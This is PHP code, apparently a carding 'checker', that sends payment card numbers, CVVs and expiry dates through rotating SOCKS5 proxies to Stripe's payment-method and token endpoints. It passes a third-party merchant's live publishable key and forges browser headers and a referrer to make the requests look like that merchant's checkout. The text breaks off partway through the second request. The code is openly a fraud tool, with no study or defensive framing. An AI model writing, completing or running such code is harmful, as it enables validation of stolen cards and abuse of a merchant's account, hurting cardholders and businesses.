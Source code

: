 echo $curl_scraped_page;


///////////////=[1st REQ]=/////////////////

$ch = curl_init();
curl_setopt($ch, CURLOPT_PROXY, $socks5);
curl_setopt($ch, CURLOPT_PROXYUSERPWD, $rotate);
curl_setopt($ch, CURLOPT_URL, 'https://api.stripe.com/v1/payment_methods');
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_POST, 1);
$headers = array();
$headers[] = 'authority: api.stripe.com';
$headers[] = 'method: POST';
$headers[] = 'path: /v1/payment_methods';
$headers[] = 'scheme: https';
$headers[] = 'accept: application/json';
$headers[] = 'accept-language: en-US,en;q=0.9';
$headers[] = 'content-type: application/x-www-form-urlencoded';
$headers[] = 'origin: https://js.stripe.com';
$headers[] = 'referer: https://js.stripe.com/';
$headers[] = 'sec-fetch-dest: empty';
$headers[] = 'sec-fetch-mode: cors';
$headers[] = 'sec-fetch-site: same-site';
$headers[] = 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.99 Safari/537.36';
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'type=card&billing_details[email]='.$email.'&billing_details[address][postal_code]='.$postcode.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=32d2baf8-248f-4549-a569-2123b0d3dabeee3b2e&muid=f7c93eaf-d5d3-4cbf-88d2-8b715c2db9e09ca911&sid=3c50b7fb-7fc0-42f7-b5f8-b69795ce1c6b3be301&pasted_fields=number&payment_user_agent=stripe.js%2F96835f1f%3B+stripe-js-v3%2F96835f1f&time_on_page=25872&referrer=https%3A%2F%2Fwww.optiparkindy.com%2F&key=pk_live_WLaietwK4F6nEnSXk9QCjfzI');
$result1 = curl_exec($ch);
$src = trim(strip_tags(getStr($result1,'"id": "','"')));

//////////////=[2nd Req]=//////////////////

$ch = curl_init();
curl_setopt($ch, CURLOPT_PROXY, $socks5);
curl_setopt($ch, CURLOPT_PROXYUSERPWD, $rotate);
curl_setopt($ch, CURLOPT_URL, 'https://api.stripe.com/v1/tokens');
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_POST, 1);
$headers = array();
$headers[] = 'authority: api.stripe.com';
$headers[] = 'method: POST';
$headers[] = 'path: /v1/tokens';
$headers[] = 'scheme: https';
$headers[] = 'accept: application/json';
$headers[] = 'accept-language: en-US,en;q=0.9';
$headers[] = 'content-type: application/x-www-form-urlencoded';
$headers[] = 'origin: https://js.stripe.com';
$headers[] = 'referer: https://js.stripe.com/';
$headers[] = 'sec-fetch-dest: empty';
$headers[] = 'sec-fetch-mode: cors';
$headers[] = 'sec-fetch-site: same-site';
$headers[] = 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.99 Safari/537.36';
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);